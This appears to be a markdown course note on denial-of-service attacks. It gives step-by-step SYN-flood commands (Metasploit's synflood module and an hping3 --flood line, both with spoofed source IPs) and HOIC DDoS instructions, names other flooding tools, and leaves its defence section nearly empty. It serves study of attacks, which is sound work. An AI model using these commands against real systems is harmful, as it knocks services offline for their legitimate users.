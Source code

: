 # Module 10 - Denial-of-Service #
Denial-of-Service is an attack on a computer or network that reduces, restricts or prevents accessibility of system resources to its legitimate users.

## SYN Flooding a Target ##
### Metasploit ###
``` msfconsole ```

1. ``` use auxiliary/dos/tcp/synflood ```
2. ``` show options ```, ``` set RHOST <Target IP> ```, ``` set RPORT <Open Target Port - Ex. 21> ```, ``` set SHOST <Spoofed Source IP> ```, ``` set TIMEOUT <Seconds to wait for new data - Ex. 20000> ```
3. ``` exploit ```

### Hping3 ###
``` hping3 -S <Target IP> -a <Spoofed Source IP> -p <Target Port> --flood ``` - '-S' sets the TCP SYN flag 


## Performing Distributed Denial-of-Service Attacks ##
### High Orbit Ion Cannon (HOIC) ###
1. Set the Target, set the Power bar to 'High', select the Booster 'GenericBoost.hoic', and click 'Add'
2. Set the nº of threads - Ex. 20
3. Do the same on as many machines as you can
4. 'Fire Teh Lazer!'

### Low Orbit Ion Cannon (LOIC) ###


### Other DoS/DDoS Tools ###
* HULK 
* R-U-Dead-Yet 
* Tsunami 
* Moihack Port-Flooder

- - - -

## Detect and Protect Against DoS and DDoS Attacks ##
### Anti DDoS Guardian ###
